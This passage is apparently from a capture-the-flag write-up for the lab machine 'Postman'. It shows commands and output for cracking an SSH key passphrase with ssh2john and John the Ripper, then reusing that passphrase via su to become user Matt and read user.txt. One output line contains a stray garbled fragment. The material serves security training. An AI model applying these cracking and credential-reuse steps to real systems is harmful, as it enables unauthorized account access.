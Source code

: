 I can generate a hash using ssh2john and then use JohnTheRipper to crack it. I was able to successfully crack the hash and retrieve the passphrase of `computer2008`

```
$ /opt/JohnTheRipper/run/ssh2john.py matt_private.key > matt_hashes.txt
$ john --wordlist=/usr/share/wordlists/rockyou.txt matt_hashes.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
computer2008     (matt_private.key)
1g 0:00:00:20 DONE (2019-12-03 13:57) 0.04819g/s 691166p/s 691166c/s 691166C/sa6_123..*7¡Vamos!
Session completed
```

I tried connecting to the server using the SSH port as Matt but this failed as the connection was closed whenever I tried connecting. Further checks revealed that user Matt is denied access through SSH on the server:

```
$ ssh -i matt_private.key Matt@10.10.10.160
Enter passphrase for key 'matt_private.key':
Connection closed by 10.10.10.160 port 22

redis@Postman:/etc/ssh$ cat sshd_config
..snip...

Port 22
#AddressFamily any
#ListenAddress 0.0.0.0
#ListenAddress ::


#deny users
DenyUsers Matt

...snip...
redis@Postman:/etc/ssh$
```

There's a chance the passphrase for the ssh private key is the same password used for the system. I tried changing user from redis user to Matt and it worked successfully and was able to grab the user.txt

```
redis@Postman:~$ su - Matt
Password:
Matt@Postman:~$ cat user.txt
517ad0ec...........
Matt@Postman:~$
```
